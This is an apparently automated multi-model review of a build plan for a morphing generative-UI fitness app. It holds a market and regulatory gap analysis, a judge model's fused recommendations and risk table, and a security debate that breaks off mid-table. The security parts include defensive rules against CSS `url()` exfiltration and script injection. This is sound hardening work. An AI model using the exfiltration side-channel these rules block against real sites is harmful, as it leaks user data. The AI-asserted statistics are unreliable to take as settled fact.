*   **Why it matters:** The FDA's January 2026 Digital Health Guidance update strictly enforces the line between "General Wellness" apps and regulated medical devices. If the SwanStudios AI agent diagnoses an injury or prescribes a clinical diet, it violates FDA rules. Furthermore, the FTC's July 2026 AI policy proposal requires AI makers to explicitly disclose biases or limitations in generative outputs to prevent deceptive practices.
*   **How to implement:** Add a **T-Health Compliance Gate** to the Trust Layer. If the AI generates a workout modification due to user-reported pain, the UI must automatically render an FDA-compliant "General Wellness" disclaimer. Ensure the AI prompt is strictly bounded to *lifestyle and fitness* contexts, never clinical measurements.
*   **Priority:** **HIGH** (Next sprint — required before public beta).
*   **Source URL:** [FDA Digital Health Guidance: 2026 Requirements Overview](https://intuitionlabs.com/fda-digital-health-guidance-2026)

**GAP: HIPAA 2026 BAA Requirements for LLMs**
*   **What's missing:** If SwanStudios ever integrates with clinical data (e.g., physical therapy records, blood panels), the plan's AI routing is legally exposed.
*   **Why it matters:** Under the May 2026 HIPAA updates, consumer LLM APIs (standard OpenAI/Anthropic endpoints) are non-compliant because they lack Business Associate Agreements (BAAs). 
*   **How to implement:** If the Data Spine touches Protected Health Information (PHI), the AI Harness must route requests through Enterprise API versions (e.g., Azure OpenAI Service or AWS Bedrock for Claude), which provide the mandatory BAA coverage and data residency controls.
*   **Priority:** **MEDIUM** (Roadmap — depends on V1 data scope).
*   **Source URL:** [HIPAA-Compliant AI in Healthcare: A 2026 Architecture Guide](https://techahead.com/hipaa-compliant-ai-2026)

### 3. Industry Trend Gaps

**GAP: Wearable-Driven Dynamic AI Coaching**
*   **What's missing:** The plan relies on "Voice/intent" to generate the state document, but ignores passive biometric data ingestion.
*   **Why it matters:** In 2026, the top-tier AI fitness apps (like SensAI and Google Health Coach) do not just generate static routines; they read daily HRV, sleep stages, and resting heart rate to dynamically rewrite the user's workout *before* they open the app. A fitness app that requires manual context in 2026 is already obsolete.
*   **How to implement:** Integrate the open-source **Apple Health MCP Server**. This allows the AI agent to query the user's Apple Health XML/FHIR export using natural language (e.g., "What is the user's HRV trend this week?") and automatically adjust the Lens JSON state (e.g., morphing the UI to a "Recovery Day" layout) without the user saying a word.
*   **Priority:** **HIGH** (Next sprint — this is the core differentiator for the SwanStudios Lens).
*   **Source URL:** [Apple Health MCP Server: Use Cases for Developers](https://medium.com/momentum/apple-health-mcp-server)

### 4. User Experience Innovation

**GAP: Voice UI (VUI) with Conversational Memory for Hands-Free Workouts**
*   **What's missing:** The plan mentions "Voice/intent" but doesn't specify the UX for mid-workout interactions where users cannot touch the screen.
*   **Why it matters:** 30% of new apps in 2026 integrate Voice UI. For fitness apps, users need to log sets, ask for form tips, or adjust weights while their hands are occupied. Modern VUI requires conversational memory (handling mid-phrase revisions and context).
*   **How to implement:** Embed **Whisper.js + GPT-4o** directly into the "Totem" (the persistent command orb). When the user is in a workout Lens, the Totem acts as an always-listening (opt-in) voice agent that can mutate the JSON state document in real-time (e.g., User: "Actually, I only got 8 reps on that last set." -> Agent updates the UI instantly).
*   **Priority:** **HIGH** (Next sprint — perfect fit for the Totem concept).
*   **Source URL:** [Top Mobile App UI/UX Design Trends 2026](https://zealoussystem.com/ui-ux-trends-2026)

**GAP: Progressive Onboarding via Behavioral Triggers**
*   **What's missing:** How the user learns the "Morph Grammar" (zoom, flip, fold).
*   **Why it matters:** 2026 UX data shows that dumping a tutorial on users results in a 77% churn rate within 3 days. Progressive onboarding—introducing UI mechanics only when behaviorally relevant—is the standard.
*   **How to implement:** Do not build a tutorial. Instead, use behavioral triggers. The first time a user needs to change perspectives, the AI agent highlights the specific component and introduces the "flip" morph. 
*   **Priority:** **MEDIUM** (Roadmap).
*   **Source URL:** [9 User Onboarding Best Practices for 2026](https://formbricks.com/blog/user-onboarding-best-practices)

### 5. Monetization & Business Model Gaps

**GAP: The "Paid Challenge" B2B2C Creator Model**
*   **What's missing:** The business model decision ("agency wedge vs pure product") misses the most lucrative fitness monetization trend of 2026.
*   **Why it matters:** Fitness influencers are abandoning passive courses. The median fitness creator in 2026 earns 2.8x more revenue by running interactive, time-bound "Paid Challenges" (e.g., 30-Day Shred). Creators are desperate for white-label apps to own their audience and escape algorithm decay (Instagram organic reach is down to 4%).
*   **How to implement:** Resolve the Business Model open decision by choosing the **B2B2C Creator Wedge**. Do not sell SwanStudios as a B2C app. Sell the *SwanStudios Lens* to fitness influencers as a white-label platform. The influencer brings the audience; the Engine generates personalized challenge UIs for their followers; you take a SaaS fee + GMV cut.
*   **Priority:** **CRITICAL** (Do now — resolves Open Decision #2).
*   **Source URL:** [Fitness Influencer Digital Products 2026: Proven Stats](https://communipass.com/fitness-influencer-digital-products-2026)

### 6. Future-Proofing Recommendations

**GAP: Web-to-Native Mobile Distribution Strategy**
*   **What's missing:** The rendering stack (React + Framer Motion + View Transitions API) is strictly web-based. The plan has no strategy for getting into the iOS/Android App Stores.
*   **Why it matters:** You cannot use React Native. React Native does not support the DOM View Transitions API, which is the "load-bearing invention" of your morph engine. If you rewrite in React Native, you lose the 600-900ms cross-DOM interpolation magic.
*   **How to implement:** Use **Capacitor 8**. Capacitor allows you to take your exact React web canvas (with all View Transitions intact) and wrap it into a native iOS/Android shell. It provides full native access to biometrics, background GPS, and Apple HealthKit without rewriting your UI layer.
*   **Priority:** **CRITICAL** (Do now — resolves Open Decision #3 regarding the rendering stack commitment).
*   **Source URL:** [Capacitor vs React Native: The 2026 Decision Guide](https://bacancytechnology.com/capacitor-vs-react-native-2026)

### Summary Verdict for the Final Decider (Fable)
The rendering stack (React + View Transitions) is highly viable and performant in 2026 (browser support is >85%), but it **must** be wrapped in Capacitor for mobile distribution. The biggest single risk is building a B2C fitness app in a saturated market; mitigate this by pivoting the V1 lane to a **B2B2C Creator Wedge**, selling the SwanStudios Lens to influencers running paid challenges. Integrate the official MCP Apps spec immediately to future-proof the AI harness.

---

## [FAIL] Full-Stack Integration Analysis (Trinity)
**Model:** arcee-ai/trinity-large-preview:free | **Duration:** 2.5s

Error: OpenRouter 404: {"error":{"message":"No endpoints found for arcee-ai/trinity-large-preview:free.","code":404},"user_id":"user_331bflPEvr7vdrTesenqnZ2lBdC"}

---

## [PASS] Fusion Synthesis (Judge)
**Model:** anthropic/claude-5-fable-20260609 | **Duration:** 193.1s

## Consensus Points

1. **The 600–900ms morph budget is the primary technical constraint and the most likely failure point.** Analysts 1, 4, 5, 6, 7, and 12 all flag it — Analyst 4 calls it "the primary constraint," Analyst 6 rates rendering-stack feasibility CRITICAL, Analyst 5 notes users perceive >900ms as "slow, not thoughtful," and Analyst 7 caps DOM nodes at <100 per Lens to keep it achievable.
2. **The Lens JSON / state document schema is undefined, and this is the single most dangerous gap.** Analysts 2, 3, 6, 8, and 9 independently converge on this: without a versioned, validated schema (Zod/JSON Schema in CI), every hook, component, agent prompt, and endpoint will assume a different shape (Analyst 2), morphing becomes non-deterministic (Analyst 6), and storage grows unboundedly (Analyst 8).
3. **The Component Registry must be a pre-registered lookup map, never runtime generation, with `React.memo` on every block and stable keys/layoutIds tied to `data-morph` anchors — not array indices.** Analysts 2, 4, and 7 give near-identical prescriptions; Analyst 2 warns Framer Motion's shared-layout continuity breaks otherwise.
4. **Voice data must never be persisted; consent is mandatory; raw audio/transcripts must be discarded after intent extraction.** Analysts 3, 8, and (implicitly via opt-in VUI) 12 agree. Analyst 8 escalates this: on a fitness platform, spoken injuries/conditions are GDPR Article 9 special-category health data.
5. **The Trust Layer (T3/T4 approval + audit receipts) is the real moat — not the animation.** Analysts 3, 5, 7, 8, 9, and 12 all treat it as the defensible core; Analyst 7 states it explicitly: "Competitors can copy the 'look,' they cannot copy the audit-ready state machine." Server-side enforcement is required (Analyst 3), append-only/tamper-evident logging (Analysts 8, 9).
6. **A graceful fallback path is mandatory everywhere:** reduced-motion → cross-fade or instant swap (Analysts 1, 4, 5, 7, 11); AI misinterpretation/network failure → static UI / cached Lens / Totem-only fallback (Analysts 1, 2, 5, 11); View Transitions API → feature-detect + polyfill/CSS fallback (Analysts 4, 6, 11, 12).
7. **Lazy-load Lenses; eager-load only the Engine core and Totem.** Analysts 4, 7, and 10 converge on identical code-splitting boundaries (LensRenderer via `React.lazy`, TrustLayer UI loaded only on T3/T4 initiation, heavy Victory charts split).
8. **"No backend changes" is false.** Analysts 6, 8, and 9 independently show the plan implies Lens CRUD, a `/generate` orchestration endpoint, audit-log ingestion, and registry storage — all requiring schema migrations and new contracts.
9. **The 300-line budget will be breached by the same files:** MorphCanvas/InceptionRouter, ComponentRegistry, and TrustLayer, per Analysts 2, 6, and 10 — with compatible split proposals (orchestrator vs. shell; registry manifest vs. API; gate vs. modal vs. audit).
10. **Accessibility of a morphing generative UI needs work beyond WCAG contrast:** ARIA live regions announcing morphs, focus management across DOM swaps, keyboard fallbacks for every gesture, and per-theme contrast verification across all 18 themes (Analysts 1, 5, 7, 11).
11. **Cache/pre-load Lenses for perceived instant morphs** (Analysts 4, 5, 11) — pre-warm the predicted next Lens, cache common Lens JSON locally, LRU-purge to IndexedDB.
12. **Resolve the open decisions before writing code** — Analysts 2, 6, and 12 all treat the deferred decisions as the primary schedule risk; Analyst 6 recommends a ≤2-day decision sprint with a frozen decision matrix.

## Contradictions

1. **Business model (Open Decision #2): Agency Wedge vs. B2B2C Creator Wedge.**
   - **Analyst 7:** "Agency Wedge" — build high-end agent-ready portals for law firms/enterprises to fund R&D and prove the Trust Layer in a high-stakes environment.
   - **Analyst 12:** "B2B2C Creator Wedge" — white-label the SwanStudios Lens to fitness influencers running paid challenges (cites 2.8x creator revenue on challenges, influencer demand for owned audiences, and the saturation risk of B2C fitness).
   - **Better supported: Analyst 12.** Its evidence is domain-specific (SwanStudios *is* a fitness platform, so the wedge reuses the V1 Lens directly), cites concrete market dynamics, and avoids the cold-start of entering legal — a vertical Analyst 8 separately flags as maximally risky (privileged content in audit payloads creates legal liability). Analyst 7's Trust-Layer-proving rationale is preserved because paid challenges exercise T4 (pay) flows anyway.

2. **Where voice transcription runs.**
   - **Analyst 3:** All voice processing client-side only (Web Speech API); never send audio *or transcription* to external services; ZERO PII TO LLMs.
   - **Analyst 8:** Permits server-side STT if audio is transcribed then immediately discarded, never written to disk/DB.
   - **Analyst 12:** Recommends Whisper.js + GPT-4o embedded in the Totem.
   - **Better supported: Analyst 3's client-side stance, reconciled via Analyst 12's mechanism.** Whisper.js runs in-browser, satisfying Analyst 3's constraint; the reconciliation is client-side transcription + de-identification of the transcript before any LLM call (Analyst 3's own fallback mitigation). Analyst 8's health-data GDPR analysis makes the strict posture the safer default for a fitness product.

3. **Animation library roles.**
   - **Analyst 7:** View Transitions API for structural DOM morphs; Framer Motion for micro-interactions only.
   - **Analysts 2 & 4:** Framer Motion `layoutId` shared-layout as the primary morph mechanism (FLIP technique), with View Transitions as a bridge.
   - **Better supported: the hybrid, weighted toward Analyst 2/4.** Analysts 2 and 4 provide concrete failure analysis (layoutId survival across renders, GPU-only properties, `AnimatePresence` leak risk) that Analyst 7's division of labor doesn't contradict — and Analysts 6 and 11 both document View Transitions' cross-browser immaturity, arguing against making it the sole load-bearing mechanism.

4. **Granularity of anchor components.** Analyst 2's decomposition creates fine-grained files; Analyst 10 argues inner anchors (`title`, `card`, `stat` at <30 LOC) should be merged into parent block files to avoid over-fragmentation. **Analyst 10 is better supported** here — it directly reasons from the 300-line budget in both directions (splitting *and* anti-fragmentation), and Analyst 2's structure survives intact with inner anchors inlined.

## Partial Coverage

- **Offline-first / spotty gym Wi-Fi** (Analysts 1, 5, 11): cached Lens JSON fallback, empty-state skeletons with debounced retry, offline logging for core trainer functions. Not addressed by architecture/security analysts.
- **Backend data-safety controls** (Analyst 8, echoed partially by 3 and 6): 512KB Lens cap, 50-version cap via trigger, hash-not-payload audit receipts, retention policies (30d for T0–T2, 7yr configurable for T3–T4), registry promotion optimistic locking.
- **Full REST surface** (Analyst 9, with backend-spec nods from Analyst 6): components, /generate (+SSE stream), lenses + versions, marketplace, audit, /agent/render; pagination for any list >a few dozen items; upload-then-reference for component source files.
- **Testing strategy** (Analyst 6, with Analyst 7's stress test): unit hooks matrix, integration (intent→state→DOM), Cypress E2E, visual regression baselines per anchor, Lighthouse CI measuring morph duration.
- **Feature-flag rollback matrix** (Analyst 6): per-phase flags (`MORPH_ENGINE_ENABLED`, `LENS_ROUTING_ENABLED`, per-Lens, per-effect-tier), canary at 5% traffic.
- **Onboarding** (Analysts 1 and 12): progressive disclosure starting from a familiar SwanStudios Lens (1) vs. behavioral-trigger introduction of morph grammar with no upfront tutorial (12) — compatible, both reject tutorial-dumping.
- **Persona-level flow validation** (Analyst 5, with gym-context overlap from Analyst 1): tap-count budgets per persona, pre-loading the HIIT Lens, trust badges for payment intents.
- **Mobile edge cases** (Analyst 11, with mobile-first critique from Analyst 1): 320px single-column collapse, keyboard-safe Totem repositioning, iOS Safari quirk table, react-window virtualization for lists >50 items, 56px touch targets under 768px.
- **Hook layering discipline** (Analysts 2, 7, 10 — but not the rest): data-fetch → business-logic → UI-state separation; no god-hook; `useMorphEngine` stays a thin coordinator (<~80 lines per Analyst 2).
- **Regulatory gates** (Analyst 12, with GDPR overlap from Analysts 3 and 8): FDA General Wellness disclaimer gate, HIPAA BAA routing if PHI ever enters the spine.
- **Scope containment on the corpus** (Analyst 6): minimum-viable corpus of ~10 pages, defer the remaining 40 to post-MVP.

## Unique Insights

- **Analyst 2 — Intent race condition & queue.** A second intent during a 600–900ms morph will corrupt layoutId anchors; queue intents and drain on `onMorphComplete`. Also: URL timing (`replaceState` during morph, `pushState` only on `settled` so back-button rewinds to settled states), the **Totem must live outside `AnimatePresence`** or spatial continuity breaks, and a **three-layer error boundary** strategy with automatic demotion of failing generated components back to sandbox.
- **Analyst 3 — CSS custom properties as an attack surface.** Whitelist token values and disallow `url()` in user-controlled styles to prevent exfiltration side-channels; run marketplace lenses in sandboxed iframes with no external script loading.
- **Analyst 4 — Browser-engine-level performance tactics.** `contain: layout paint` on the 7 semantic anchors to isolate reflows, parse/validate Lens JSON in a **Web Worker**, LRU cache of Lens definitions purged to IndexedDB, BFF aggregation of Lens JSON + component metadata into one payload, `LazyMotion` tree-shaking, CSS Paint API for heavy visual effects.
- **Analyst 5 — Emotional/trust micro-design.** "Verified by Hermes" badge on T3/T4 buttons, a premium-badge sparkle for payment intents, a warm amber accent to soften the cold Crystalline palette, and a first-morph explainer banner.
- **Analyst 6 — Phase re-ordering.** Validate the rendering stack in a prototype sandbox *before* building the V1 slice, and build the Engine core in parallel with the slice to shorten the critical path; also the concrete file-level line-count risk table and per-environment flag strategy.
- **Analyst 7 — The Morph Stress Test acceptance gate** (1,000 transitions across 50 random state-document permutations with zero layout shift or memory leak), **container queries instead of media queries** (components must respond to their morphing container, not the viewport), and uncontrolled forms + Zod with debounced state-document sync.
- **Analyst 8 — Production-grade SQL mitigations**: 512KB hard cap on `state_doc`, version-cap trigger (keep last 50), partitioned audit table with mandatory `expires_at`, SHA-256 `action_hash` instead of raw payload snapshots, and optimistic review-lock tokens preventing concurrent registry promotions.
- **Analyst 9 — Complete API contract catalog**, including SSE streaming for long generations, upload-then-reference for component sources/schemas, and the consistent `{ data, meta }` response envelope.
- **Analyst 10 — Import-graph directionality audit** and the data→logic→UI hook dependency tree, plus merging inner anchors into parent blocks.
- **Analyst 11 — Concrete mobile-hardening code**: keyboard-safe orb repositioning hook, iOS Safari quirk matrix (sticky-inside-transform, `-webkit-` reduced-motion prefixes, view-transition feature detection), RTL via logical properties, and line-clamp truncation rules.
- **Analyst 12 — 2026 ecosystem corrections**: adopt the official **MCP Apps Extension (SEP-1865)** rather than treating MCP-UI as experimental; **Capacitor 8** for App Store distribution (React Native is impossible — it lacks DOM View Transitions); **Apple Health MCP** passive biometric ingestion so the Lens morphs to a "Recovery Day" layout without any spoken intent; FDA/FTC/HIPAA compliance gates.

## Blind Spots

- **LLM generation cost economics.** No analyst modeled per-generation token cost, latency budgets for the Generation Ladder's step (b)/(c), or how "generate once, replay forever" amortizes cost — critical to pricing the marketplace and the B2B2C wedge.
- **Prompt injection into the AI harness.** Analyst 3 covered XSS and CSS injection thoroughly, but no one addressed a malicious *intent string* (or marketplace Lens metadata) manipulating the generation ladder or the agent's tool calls — the agentic-web analog of XSS.
- **Multi-user concurrency.** Trainer and client viewing/mutating the same Lens simultaneously (e.g., live workout session) — no analyst addressed conflict resolution beyond Analyst 6's brief Yjs sync mention for the personal graph.
- **Observability & product telemetry.** Analyst 6 proposed Lighthouse CI, but no one proposed runtime metrics for intent-resolution accuracy, morph-abort rates, fallback-trigger frequency, or per-theme render errors — without which the "AI misinterpretation" failure mode (Analyst 1's top journey gap) can't be measured or improved.
- **IP/licensing of AI-generated marketplace components.** Analyst 9 included a `license` field and Analyst 8 audited promotion, but no one addressed who owns generated code, revenue-share terms, or liability for a marketplace Lens that harms a buyer.
- **Automated 18-theme × generative-output QA.** Analysts 1 and 5 flagged per-theme contrast checking, but no one proposed a pipeline that renders every registry component under all 18 themes on every promotion — the combinatorial surface (components × themes × morph states) is otherwise untestable.
- **SEO/shareability of public `/lens/<name>` URLs** — addressable Lenses imply public pages, but rendering is client-side generative; no analyst covered SSR/prerendering for discoverability.

## Fused Recommendation

Build this — but invert the order the plan implies. The panel's collective verdict: **the concept is sound and 2026-aligned (Analysts 1, 12), the moat is the Trust Layer + Registry quality, not the animation (Analyst 7, corroborated by 3, 5, 8, 9, 12), and the plan is not yet build-ready (Analyst 2's 2/5 rating, Analyst 6's dependency analysis, Analyst 8's schema audit).**

Do these, in order:

1. **Freeze all open decisions in a ≤2-day decision sprint** (Analyst 6) using the resolutions in the plan below.
2. **Run the de-risking experiment first**: a rendering-stack spike + Morph Stress Test (Analysts 6, 7) on mid-range mobile hardware before any product code. If the 600–900ms budget fails, fall back to CSS-only transitions (Analyst 6) — this decision changes everything downstream.
3. **Define the LensDocument schema before writing a single hook** (Analysts 2, 8): versioned, Zod-validated, 512KB-capped, 50-version history, three isolated state domains (morph phase / lens document / session-intent).
4. **Adopt Analyst 2's component decomposition** (with Analyst 10's inner-anchor merge), Analyst 4/7's performance registry rules (memoized, pre-registered, GPU-only morph properties, containment), and Analyst 2's intent queue + three-layer error boundaries.
5. **Enforce the privacy floor from day one** (Analysts 3, 8): audio never persisted, client-side transcription, de-identified intents, hash-based audit receipts with retention policies, RLS on all Lens endpoints, sandboxed marketplace lenses.
6. **Choose the B2B2C Creator Wedge with SwanStudios as Lens #1** (Analysts 12 + 7): it reuses the fitness domain, exercises T4 payment flows, and avoids the saturated B2C market and the legally-fraught legal vertical.
7. **Wrap in Capacitor 8 for mobile distribution and adopt MCP Apps (SEP-1865) for the harness** (Analyst 12) — the only path that preserves the View Transitions "load-bearing invention" on native.
8. **Ship the fallback story with the same priority as the happy path** (Analysts 1, 2, 5, 11): Totem-only error fallback, cached-Lens offline mode, reduced-motion instant swap, and a static-UI escape hatch when AI intent resolution fails.

## Full Build Plan (Final Deliverable)

### Executive Summary

The Inception Canvas is a defensible, 2026-aligned bet — Generative UI, agentic delegation, and morph-as-navigation are exactly where the market is heading (Analysts 1, 12) — but its moat is the **Trust Layer (T3/T4 audit-gated actions) and Registry quality, not the animation** (Analyst 7). The plan is concept-proven but architecture-unspecified (Analyst 2): before any product code, freeze the seven open decisions, define the versioned LensDocument schema, and run a one-week Morph Stress Test to validate the 600–900ms budget on mid-range phones — the single most likely fatal risk (Analysts 4, 6, 7). Go to market via a **B2B2C Creator Wedge**: white-label the SwanStudios Lens to fitness influencers running paid challenges, which funds the Engine while exercising T4 payment flows in production (Analyst 12). Distribute mobile via **Capacitor 8** (React Native cannot run the View Transitions morph) and build the harness on the official **MCP Apps spec** (Analyst 12).

### System Architecture

**Component & state domains** (Analyst 2's decomposition, Analyst 10's merges, Analyst 4/7's performance rules): Engine core (`MorphCanvas` shell + `MorphOrchestrator`, `MorphRouter`, `ComponentRegistry` manifest + API, `TrustGate`), Totem (rendered **outside** `AnimatePresence`, keyboard-safe per Analyst 11), Lens layer (`LensRenderer` — purely presentational, memoized, keys = `data-morph` anchor ids), and three isolated state domains: **MorphPhase machine** (`idle → intent-received → lens-loading → morphing → settled | error`), **LensDocument** (versioned JSONB, Zod-validated in a Web Worker per Analyst 4), and **Session/Intent state** (with intent queue per Analyst 2). Every file <300 lines via the split table from Analysts 2/6/10.

**Pipeline: intent → API → state → render** (synthesizing Analysts 2, 3, 4, 9, 12):



**One morph transition** (Analyst 2's state machine, queue, URL timing, and error boundaries):



### Sequenced Build Slices (smallest-diamond-first)

1. **Rendering-stack spike + Morph Stress Test** (throwaway) — *Success: 1,000 transitions across 50 state-doc permutations, 30–60 nodes, on a mid-range phone with no layout shift, memory leak, or >900ms morph* (Analysts 6, 7).
2. **LensDocument schema package** (`lens.schema.ts` / `lens.migrations.ts` / `lens.types.ts`, Zod + CI validation, 512KB cap) — *Success: two hand-authored Lens JSONs validate and fail correctly on schema-version mismatch* (Analysts 2, 8).
3. **MorphCanvas shell + Totem + morph state machine with intent queue** — *Success: tap-triggered morph between two static Lenses with correct back-button rewind and queued second intent* (Analyst 2).
4. **Component Registry + LensRenderer + three-layer error boundaries** — *Success: a deliberately broken registry component demotes to sandbox without crashing the Canvas; Totem stays usable* (Analysts 2, 4, 7).
5. **Text-intent pipeline + `/generate` endpoint (SSE stream)** — *Success: typed intent resolves to a Lens and morphs end-to-end; fallback to cached Lens on network failure* (Analysts 9, 11).
6. **Backend persistence: Lens CRUD + versions (50-cap trigger), RLS, pagination** — *Success: save/load a Lens by slug with ownership enforced and version history capped* (Analysts 8, 9, 3).
7. **Trust Layer: T0–T2 tiers, then T3/T4 approval gate + hash-based partitioned audit log with retention** — *Success: a T4 pay action is impossible without server-side approval and produces a tamper-evident receipt* (Analysts 3, 8, 9).
8. **Voice intent: consent gate, client-side transcription, de-identification, zero persistence** — *Success: audio buffer provably discarded; only structured intent stored, 30-day expiry* (Analysts 3, 8).
9. **SwanStudios Lens #1 (persona-validated)** — *Success: Sean logs a set in ≤3 interactions with morph <900ms; Golf Client completes a booking with the Hermes trust badge visible; 5-min stretch flow completes offline from cache* (Analyst 5).
10. **Accessibility & mobile hardening** — *Success: ARIA live region announces morphs; reduced-motion instant swap; 320px single-column collapse; keyboard-safe orb; automated 4.5:1 contrast checks pass on all 18 themes* (Analysts 1, 5, 11).
11. **Capacitor 8 wrap + Apple Health MCP passive ingestion** — *Success: App Store build runs the identical morph; HRV data morphs the Lens to a Recovery layout with zero user input* (Analyst 12).
12. **Generation Ladder step (c): sandbox → review-locked promotion → registry, with FDA wellness-disclaimer gate** — *Success: concurrent promotion is impossible (lock token); health-adjacent generated content auto-renders the disclaimer* (Analysts 8, 12).
13. **Creator/Marketplace MVP (post-core): publish, browse (server-side search + pagination), purchase via PCI gateway, sandboxed iframe execution, no external scripts** — *Success: an influencer publishes a paid-challenge Lens and a follower purchases it with a T4 receipt* (Analysts 3, 9, 12).
14. **Corpus scale-out: minimum-viable 10 diverse pages first; remaining 40 post-MVP** — *Success: cross-theme morphing proven across 10 pages with visual-regression baselines* (Analyst 6).

### Decisions on Every Open Question

| Open decision | Ruling | Why (one line) |
|---|---|---|
| 1. V1 lane | **SwanStudios as Lens #1** | Most production-ready dataset and immediate high-value proof the Engine handles complex stateful fitness data (Analyst 7). |
| 2. Business model | **B2B2C Creator Wedge** (white-label the Lens to fitness influencers running paid challenges) | Reuses the V1 Lens, exercises T4 pay flows, and avoids the saturated B2C fitness market (Analyst 12, over Analyst 7's Agency Wedge). |
| 3. Rendering stack | **React + Framer Motion FLIP + View Transitions bridge, feature-detected with CSS-fallback, wrapped in Capacitor 8** | Feasible at <100 DOM nodes per Lens (Analyst 7); React Native is impossible — no DOM View Transitions (Analyst 12); polyfill/degrade for Safari (Analysts 6, 11). |
| 4. State model / schema | **Versioned LensDocument (semver + integer schemaVersion), Zod-validated in a Web Worker, 512KB cap, 50-version history, three isolated state domains** | Prevents the god-store render loop and unbounded JSONB growth (Analysts 2, 4, 8). |
| 5. Data spine | **Local-first with E2E-encrypted sync prototype (Yjs); zero PII/PHI to consumer LLMs; audio never persisted; BAA-covered enterprise endpoints only if PHI ever enters** | The strictest posture panelists agreed is safe for a fitness product handling GDPR Art. 9 data (Analysts 3, 6, 8, 12). |
| 6. Moat ranking | **1) Trust Layer audit-ready state machine, 2) Registry quality, 3) morph aesthetics last** | The look is copyable; the audit-gated agentic state machine is not (Analyst 7, corroborated by 3, 5, 8, 12). |
| 7. Biggest-risk experiment | **Morph Stress Test on mid-range mobile hardware, week one** | Rendering-budget failure invalidates the core promise; validate before any investment (Analysts 6, 7). |
| Harness protocol | **Official MCP Apps Extension (SEP-1865) + AG-UI SSE streaming** | The spec standardized in Jan 2026; building a custom adapter is wasted work (Analyst 12). |

### Risk Table

| Risk | Severity | Mitigation |
|---|---|---|
| **⚠️ FATAL RISK — "Morph Flakiness": 600–900ms budget breach / broken transitions at scale** | CRITICAL | Week-1 stress-test gate (1,000 transitions, mid-range phone); GPU-only properties (transform/opacity/filter); `contain: layout paint`; <100 nodes per Lens; CSS-only fallback flag (`MORPH_RENDERING_STACK`) (Analysts 4, 6, 7). |
| Undefined Lens schema → divergent code, non-deterministic morphs | CRITICAL | Schema-first slice #2; Zod in CI; schemaVersion checked against registry manifest on every load (Analysts 2, 6, 8). |
| Unbounded Lens/audit-log growth in PostgreSQL | CRITICAL | 512KB doc cap, 50-version trigger, partitioned audit table with mandatory `expires_at`, hash-not-payload receipts (Analyst 8). |
| Voice = biometric + health data (GDPR Art. 9 / BIPA) | CRITICAL | Client-side transcription, immediate discard, opt-in consent gate, recording indicator, structured-intent-only storage (Analysts 3, 8). |
| Marketplace lens injection (XSS / external scripts / CSS exfiltration) | CRITICAL | Sandboxed iframes, no external scripts, DOMPurify, token whitelist banning `url()`, review-locked promotion (Analysts 3, 8). |
| Intent race condition mid-morph | HIGH | Intent queue drained on `onMorphComplete`; never interrupt an in-flight morph (Analyst 2). |
| T3/T4 approval bypass | HIGH | Server-side enforcement, biometric confirm, append-only audit, TrustGate error boundary that preserves the receipt on failure (Analysts 2, 3, 8). |
| AI misinterpretation / no fallback → user distrust | HIGH | Totem-only fallback, static-UI escape hatch, cached-Lens offline mode, visible intent interpretation feedback (Analysts 1, 2, 5, 11). |
| View Transitions cross-browser immaturity (Safari) | HIGH | Feature-detect, polyfill, Framer-FLIP as primary mechanism, `-webkit-` reduced-motion prefixes (Analysts 4, 6, 11). |
| Accessibility regression in generative DOM (focus, reading order, 18-theme contrast) | HIGH | ARIA live regions, keyboard fallback for every gesture, automated per-theme contrast CI, reduced-motion instant swap (Analysts 1, 5, 11). |
| Hidden backend scope ("no backend changes" is false) | HIGH | Adopt Analyst 9's endpoint catalog + Analyst 8's schema up front; migrations versioned; canary + per-phase feature flags (Analysts 6, 8, 9). |
| Corpus scope creep (50 pages) | MEDIUM | Minimum-viable corpus of 10; defer 40 post-MVP; 10% sprint capacity reserved for cross-browser fixes (Analyst 6). |
| 300-line file breaches (MorphCanvas, Registry, TrustLayer) | MEDIUM | Pre-agreed splits (shell/orchestrator, manifest/API, gate/modal/audit) + pre-commit line-count hook (Analysts 2, 6, 10). |
| FDA/FTC health-advice compliance | MEDIUM | T-Health gate: auto-render General Wellness disclaimer; prompt bounded to lifestyle/fitness (Analyst 12). |

### The One De-Risking Experiment

**The Morph Stress Test (Week 1, before any product investment).** Build a throwaway page with two real Lens layouts (30–60 DOM nodes each, isomorphic 7-section skeleton, shared `data-morph` anchors) using React + Framer Motion FLIP + the View Transitions bridge. Cycle **1,000 transitions across 50 random state-document permutations** on a matrix of devices including a mid-range Android phone and iOS Safari. **Pass criteria:** every morph completes in 600–900ms, zero layout shift, zero memory growth across the run, reduced-motion path swaps instantly, and Safari degrades gracefully (Analysts 6, 7, with Analyst 4's GPU/containment rules as the implementation constraints). If it passes, the Engine is worth building. If it fails, ship the CSS-only-transition fallback as the morph mechanism and re-scope the "4K-crisp" promise **before** a single Lens, endpoint, or marketplace line is written — this experiment gates the entire diamond.

---

## [PASS] Security Planning Debate (Phase 2A)
**Model:** nvidia/nemotron-3-nano-30b-a3b:free ↔ nvidia/nemotron-3-super-120b-a12b:free | **Duration:** 49.1s

**CONSENSUS REACHED**

Below are the agreed‑upon critical findings from the Primary Security Planner’s audit, followed by additional hardening measures that the Secondary Security Planner recommends for the first shippable slice. All new points are framed as concrete, plan‑compatible changes (file names, line numbers, and code snippets) that do not repeat any finding already covered.

---

### Agreed‑upon Critical Findings (Primary Security Planner)

| # | Finding | Severity | Core Mitigation (as agreed) |
|---|---------|----------|-----------------------------|
| 1 | Voice‑intent capture → potential external LLM PII leak | HIGH | Use Web Speech API **client‑only**; derive a deterministic intent token (SHA‑256 hash) and discard raw transcript/audio. |
| 2 | Component Registry CRUD without role enforcement | CRITICAL | Server‑side role check (`admin`/`registry‑maintainer`) before any `POST /registry`; store `owner_id` and `approved` flag; enforce whitelist of component names. |
| 3 | Lens JSON ownership & access control missing | CRITICAL | Tie each Lens to `owner_id`; validate ownership on every `GET /lens/:id` (403 on mismatch). |
| 4 | State‑document persistence without encryption | HIGH | Encrypt JSON at rest (AES‑GCM) using a key derived from a user‑bound JWT claim (never leaves client). |
| 5 | Untrusted component rendering from state document | HIGH | Whitelist allowed component identifiers; sanitize all prop values (DOMPurify‑style); never `eval`/`new Function`. |
| 6 | Potential XSS via CSS custom‑property tokens | MEDIUM | Validate token values against strict regex (hex/named CSS colors); reject `url()`, `attr()`, `calc()` with user input. |
| 7 | Audit receipt exposure | MEDIUM | Keep audit receipts server‑only (write‑only); never return via public APIs. |

---

### Additional Hardening Recommendations (Secondary Security Planner)

| # | New Finding / Enhancement | Why it Matters | Concrete Change (file : line – code) |
|---|---------------------------|----------------|--------------------------------------|
